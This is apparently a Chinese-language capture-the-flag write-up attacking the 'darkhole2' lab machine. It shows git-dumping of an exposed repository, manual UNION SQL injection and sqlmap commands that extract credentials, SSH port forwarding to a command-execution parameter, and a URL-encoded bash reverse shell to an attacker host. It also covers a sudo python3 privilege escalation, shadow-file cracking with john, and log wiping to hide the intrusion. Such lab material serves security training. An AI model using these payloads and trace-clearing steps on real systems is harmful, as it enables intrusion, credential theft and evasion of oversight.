# darkhole2

## 前言

靶机：`darkhole2`

攻击：`kali`


## 主机发现

使用`arp-scan -l`扫描




## 信息收集

#### 扫描端口

使用`nmap`扫描




#### 目录扫描

```shell
dirsearch -u http://192.168.1.35 -i 200,300-401
```




#### 指纹识别

```
whatweb http://192.168.1.35
```


#### 访问网站

访问80端口




点击`login`，发现邮箱登录，并且没有注册




访问`/config`目录，有一个`php`文件，点击查看页面以及页面源代码后无任何内容




访问`/.idea`目录




访问`/.git`目录




访问`logs`，查看有无信息泄露，这里有，说是对`login.php`文件进行修改


查看`login.php`页面源代码，两个隐藏`html`文件




为了获取更完整的信息，还是把`.git`目录下载，使用工具`githack` 项目地址`https://github.com/lijiejie/GitHack`

```shell
python3 Githack.py http://192.168.1.35/.git/
```

但是我这里使用这个工具时出错，还可以使用`git-dumper`，项目地址`https://github.com/arthaud/git-dumper.git`，不过这里可以通过`pip`命令直接安装使用`pip install git-dumper`

然后使用命令

```shell
git-dumper http://192.168.1.35/.git/ hack
#这里的hack是保存的目录
```

切换到下载的位置，使用`git log`查看日志




使用`git show`查看操作




获取到邮箱和密码，啧，这里才是改动的地方，我还以为是页面源代码那里的注释呢，还想着怎么能使用呢


#### 信息小结

1. 22端口ssh服务(openssh)
2. 80端口http服务(apache)
3. http页面有登录界面，通过邮箱
4. 有`git`仓库，其中有很多文件
5. 有`.idea`目录
6. 邮箱`lush@admin.com`和密码`321`
7. 这里有个`if`判断，万能密码是无法绕过的

## 漏洞寻找

使用上面获取的邮箱密码登录，点击登录后，卡在这里了




### 手工sql注入

ok，尝试进行注入测试

抓取数据包在burp进行测试，因为我这里的界面真就是加载不出




尝试字符闭合，判断数字型还是字符型，这里为字符型




通过闭合字符测试布尔类型

```
?id=1' and 1=1--+		//数据包1
?id=1' and 1=2--+		//数据包2
```

把上面两个不同的数据包发送到`comparer`模块进行比较，发现正确是，数据会多出很多，也就是数据包1




通过这种方式进行测试，测试`order by`

```
?id=1' order by 6--+
在7时没出现该有的数据，所有只有6个
```




#### union select

使用`union`进行查询，前面已经知道表为`users`，在`git`中，先测试回显，我这里浏览器看不到啊

```
?id=-1' union select 1,2,3,4,5,6--+
```

结合前面，当`value`有值时，即回显，有四处，2，3，5，6




前面经过`git`已经知道，数据库为`mysql`，表为`users`表，不确定数据库版本，有无`information_schema`表，这里要进行测试，也是一种回顾。

```sql
?id=-1' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata--+
'//获取所有的数据库名

?id=-1' union select 1,group_concat(table_name),3,4,5,6 from information_schema where table_schema='darkhole_2'--+
//获取指定数据库的所有表，这里也可以是schema_name=database()
```

#### 获取当前数据库的所有表

获取两个表，一个`ssh`一个`users`




#### 爆出users下的元组

先看`users`里有什么

```sql
id=-1' union select 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='users'--+
```




#### 爆出users中的数据

获取到`username`和`password`看看，或者也可以再加上邮箱

```sql
id=-1' union select 1,2,3,4,group_concat(username,'||||',password,'|||||',eamil),6 from users--+
```

可以看到，这里给出一个用户名密码，而且就是登录网站时用到的




#### 爆出ssh表中的元组

查看`ssh`表中的元组

```sql
id=-1' union select 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='ssh'--+
```

发现`user、pass、id`




#### 爆出ssh表中的数据

获取数据

```sql
id=-1' union select 1,2,3,4,group_concat(id,'||||',user,'||||',pass),6 from ssh--+
```




**得到用户名`jehad`和密码`fool`。**

ok，到这里，我要说一下，其实我的浏览器可以显示，不过这样对于`burp`的使用，不是更好了吗

附上浏览器最终结果，表示我测试过




### sqlmap测试

使用`sqlmap`测试，这里需要注意，前面进行登录后才存在的注入，这里需要进行认证，也就是需要带着`cookie`进行测试才行

#### 爆库

```shell
sqlmap -u http://192.168.1.35/dashboard.php?id=1 --cookie PHPSESSID=8dhtd5vlaj784je44el8cgvq9i --dbs --batch
```




#### 爆表

```shell
sqlmap -u http://192.168.1.35/dashboard.php?id=1 --cookie PHPSESSID=8dhtd5vlaj784je44el8cgvq9i -D darkhole_2 --tables --batch
```




#### 爆数据

```shell
sqlmap -u http://192.168.1.35/dashboard.php?id=1 --cookie PHPSESSID=8dhtd5vlaj784je44el8cgvq9i -D darkhole_2 -T ssh --dump --batch
```




## 提权

#### 内网信息收集

以`ssh`连接，登录用户`jehad`




查看当前目录下的`.bash_history`，看用户使用`bash`的记录

首先看到对于`.ssh`目录下的认证进行了一波操作






另一波操作，是从端口下手






首先使用`netstat -tulpn`筛选正在监听的`tcp`端口，然后使用`ssh`连接

```shell
ssh -L 127.0.0.1:90:192.168.135.129:9999 jehad@192.168.135.129
```

这条命令，可以将本地计算机（执行该命令的这台机器）上的一个端口与远程服务器（`192.168.135.129`）上的一个端口进行绑定，使得对本地指定端口的访问请求会被转发到远程服务器相应端口，并且通过 SSH 加密隧道来实现数据传输，保证了通信的安全性。


具体的分析，放在最后的总结当中

```shell
curl "http://localhost:9999/?cmd=id"
```

然后这里还可以看到进行转发后，访问的地址有个参数`cmd`

从后面的来看，这个可以进行命令执行操作


使用

```shell
find / -perm -u=s -type f 2>/dev/null
```

寻找具有SUID权限的




发现有`su 、sudo、at`等

查看`/etc/passwd`文件，发现还有其他用户




不过`su`不知道其他用户密码，`sudo`进行测试




查看`.ssh`目录，没有密钥等




#### ssh端口转发

先查看当前端口

`netstat tulpn | grep LISTEN`

发现当前并没有任何端口进行监听，那么使用`ss -antp`查看




那么这个可以复现之前的操作

先使用前面的`curl`测试其`id`




可以看到这是`losy`的权限


进行前面`bash`命令复现，使用命令

```shell
ssh -L 9999:127.0.0.1:9999 jehad@192.168.1.35
```

这里的复现地址，需要注意，127.0.0.1是目标地址，不过这里是指通过ssh连接后的，`jehad`用户的那个端口，也就是上面截图中，进行监听的

可以看到登录成功




再开一个终端，测试端口转发是否可行，完全没问题




这时候，可以尝试使用`bash`来进行反弹，前面查看的时候，`losy`具有`bash`，并且也有执行权限




#### 反弹用户losy的shell

构造`bash`反弹

```shell
bash -i >& /dev/tcp/192.168.1.16/8888 0>&1
```

然后先在kali中使用`nc`监听8888端口，再执行上面的命令

发现不行，然后在命令前加上`bash -c`表示后面的字符，以`bash`执行，所以后面需要把前面的命令使用引号括起来





不过还是不行，可能有检测。尝试进行编码，测试能否绕过

使用`url`编码后，成功反弹




查看该用户的家目录下有什么`ls -al`，发现和之前一样，有历史记录，查看



发现有几个有意思的


在`bash`中打出了用户`losy`的密码，然后`losy`用户可以使用`sudo、su`切换用户，并且，进入到`lama`后，怎么提权都给出了

使用`find`寻找`SUID`




其实这时候就可以使用`SSH`连接`losy`，方便使用，因为有些操作，可能无法实现


#### sudo提权

这里不知道用户`lama`的密码，所以无法切换，使用`sudo -l`查看，发现`python3`




编写一个`python`脚本，然后执行

```python
import os;os.system('/bin/bash')
```




#### 附加

只是这里不知道用户`lama`的作用，所以我把其`/etc/passwd`和`/etc/shadow`下载，进行爆破



分别放入两个文件，然后使用`unshadow`整合后，使用`john`爆破，这里使用默认的字典




爆出密码`123`，登录进去看看他可以有哪些操作，任意啊




所以这里在使用`jehad`进入`ssh`后就尝试进行爆破的话，是不是早就可以提权了。。。




## 清除痕迹

清除与自己IP有关的信息

```shell
sed -i "/192.168.1.16/d" auth.log
或者直接重定向为空
```





其他的日志文件与上面一样，为了省事，这里直接置为空





## 总结

1. 对于泄露的`git`源码，怎么使用命令`git`进行查询记录
2. 信息收集的重要性，比如数据库类型等等，可能后面都会用到
3. 对于`sql`注入要了解，寻找注入点，这里建议手工注入
4. 查看`bash`的历史记录，可以从中获取到一些信息
5. SSH -L的理解，见下面
6. 学会编码等绕过
7. `python`的简单提权脚本要会

其实这个靶场主要就是`sql`注入，提权方面，在查看历史记录，都有具体操作，甚至密码等


`ssh -L 127.0.0.1:90:192.168.135.129:9999 jehad@192.168.135.129`

参数解析

- `ssh`：这是启动 SSH 客户端程序的命令，用于建立与远程服务器的安全连接。

- `-L`：这是 SSH 的本地端口转发选项。它的作用是指定要进行本地端口转发的配置。

  `127.0.0.1:90:192.168.135.129:9999 `

  这是本地端口转发的具体配置参数，其格式为

  `[bind_address:]port:host:hostport`

  

  `127.0.0.1`：这是本地绑定的地址，也就是指定只有从本地计算机的回环接口（`127.0.0.1`，通常也称为`localhost`）发出的对端口 `90` 的连接请求才会被转发。如果省略这个地址（只写成`:90:192.168.135.129:9999`），则会绑定到所有本地可用网络接口上的端口 `90`，意味着来自本地计算机任何网络接口对端口 `90` 的访问请求都会被转发。

  - `90`：这是本地计算机上要绑定并监听的端口号。当有应用程序在本地尝试连接到这个端口时，SSH 会将连接请求通过加密隧道转发到远程服务器。
  - `192.168.135.129`：这是远程服务器的 IP 地址，也就是要将本地端口转发到的目标服务器的 IP。
  - `9999`：这是远程服务器上的目标端口号，即来自本地端口 `90` 的连接请求最终会被转发到远程服务器的这个端口上。

- `jehad@192.168.135.129`：这指定了要登录的远程服务器的用户名（`jehad`）和 IP 地址（`192.168.135.129`）。SSH 客户端会使用这个用户名尝试登录到远程服务器，并在登录成功后建立起本地端口转发的加密隧道。


